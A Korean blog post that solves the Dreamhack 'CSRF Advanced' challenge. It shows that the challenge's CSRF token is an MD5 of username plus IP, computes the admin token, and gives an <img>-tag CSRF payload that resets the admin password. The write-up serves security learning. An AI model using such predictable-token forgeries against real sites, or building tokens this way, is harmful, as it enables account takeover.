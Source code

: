 ```yaml
---
layout: post
title: "[Dreamhack] CSRF Advanced 문제풀이"
date: 2023-11-03
categories: "web-hacking"
---
```


본 문제는 생각보다 어려웠습니다 ㅠ  
`CSRF Token`이 코드 상에서 어떻게 생성되는지 안다면 생각보다 쉽게 접근할 수 있고 기본적인 기능들이 어떻게 동작하는지 안다면 쉽게 접근할 수 있습니다.

**우리의 최종 목적지는 어드민 계정에 로그인을 하면 성공적으로 플래그를 획득할 수 있습니다.**

로그인 시, `CSRF Token`을 생성하게 됩니다. 토큰이 있어야지만 비밀번호를 생성할 수 있습니다.
```py
if pw == password:
    resp = make_response(redirect(url_for('index')) )
    session_id = os.urandom(8).hex()
    session_storage[session_id] = username
    token_storage[session_id] = md5((username + request.remote_addr).encode()).hexdigest()
    resp.set_cookie('sessionid', session_id)
    return resp 
```

```py
@app.route("/change_password")
def change_password():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
        csrf_token = token_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')
    pw = request.args.get("pw", None)
    if pw == None:
        return render_template('change_password.html', csrf_token=csrf_token)
    else:
        if csrf_token != request.args.get("csrftoken", ""):
            return '<script>alert("wrong csrf token");history.go(-1);</script>'
        users[username] = pw
        return '<script>alert("Done");history.go(-1);</script>'
```
비밀번호 변경 시에도 `csrf_token`이 필요하다는 점을 알 수 있습니다.

```py
token_storage[session_id] = md5((username + request.remote_addr).encode()).hexdigest()
```

가장 중요한 부분은 바로 위 코드입니다. `csrf_token`은 위의 방식을 통해서 저장된다는 점을 발견할 수 있습니다.  
그럼 본격적으로 어떻게 토큰이 발행되는지 확인하기 위해서 간단한 코드를 작성하여 확인해 보았습니다.

```py
from hashlib import md5

username = "admin"
remote_addr = "127.0.0.1"

print(md5((username + remote_addr).encode()).hexdigest())
```

`remote_addr`는 로컬 호스트로 지정해 주었습니다.

```
7505b9c72ab4aa94b1a4ed7b207b67fb
```

최종적으로 익스플로잇 코드는 `<img>` 태그를 통해서 설정할 수 있습니다.

```html
<img src="/change_password?pw=1234&csrftoken=7505b9c72ab4aa94b1a4ed7b207b67fb">
```

어드민 계정의 비밀번호를 `1234`로 지정해 주었습니다.
이를 통해서 어드민 계정에 로그인하여 플래그를 얻을 수 있습니다.

![00](/hacking/assets/images/dreamhack/csrf-advanced/00.png)